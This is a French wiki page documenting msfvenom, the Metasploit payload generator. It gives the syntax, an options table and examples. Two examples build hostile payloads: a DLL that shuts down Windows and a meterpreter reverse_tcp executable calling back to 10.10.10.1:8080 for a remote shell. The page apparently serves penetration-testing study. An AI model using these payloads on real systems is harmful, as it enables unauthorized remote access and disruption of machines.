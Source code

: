 ```yaml
---
title: msfvenom
description: Permet de générer des charges utiles (payloads) de toutes sortes
published: true
date: 2024-07-15T20:09:37.279Z
tags: outil, linux
editor: markdown
dateCreated: 2024-07-15T20:08:55.994Z
---
```


# Introduction

msfvenom est un outil de la suite Metasploit, cet outil permet de générer des charges utiles (payloads) de toutes sortes.

> La suite Metasploit est disponible au téléchargement ici: https://github.com/rapid7/metasploit-framework
> {.is-info}

# Syntaxe

`msfvenom -p [type de payload] [variable=valeur] -f [format] -o [fichier de sortie] [options]`

# Options

| Option                            | Description                                                                                                         |
| --------------------------------- | ------------------------------------------------------------------------------------------------------------------- |
| `-l [type]`                       | Liste tous les modules disponibles pour le type indiqué (paylods,encoders,nops,platforms,archs,encrypt,formats,all) |
| `-p [type de paylaod]`            | Spécifie le payload à utiliser                                                                                      |
| `--list-options`                  | Affiche les options disponibles avec le payload sélectionné                                                         |
| `-f [format]`                     | Spécifie le format à utiliser                                                                                       |
| `-e [encodeur]`                   | Spécifie l'encodeur à utiliser                                                                                      |
| `--service-name [nom]`            | Spécifie le nom du service lorsqu'un binaire de service est généré                                                  |
| `--smallest [nom]`                | Génere le payload le plus petit possible avec tous les encodeurs disponibles                                        |
| `--encrypt [type de chiffrement]` | Spécifie le type de chiffrement utilisé                                                                             |
| `--encrypt-key [clé]`             | Clé à utiliser avec le chiffrement                                                                                  |
| `-a [architecture]`               | Spécifie l'architecture souhaitée pour la génération du payload et l'encodage                                       |
| `-o [sortie]`                     | Sauvegarde le payload vers un fichier                                                                               |

# Exemples

Liste les payloads disponibles

`msfvenom -l payloads`

Utilise le payload windows/x64/exec avec comme argument cmd='shutdown /s', génere un fichier dll et l'exporte vers shutdown.dll

`msfvenom -p windows/x64/exec cmd='shutdown /s' -f dll -o shutdown.dll`

Utilise le payload windows/meterpreter/reverse_tcp avec comme argument LHOST=10.10.10.1 et LPORT=8080, génere un fichier exe et l'exporte vers reverse.exe

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.1 LPORT=8080 -f exe -o reverse.exe`
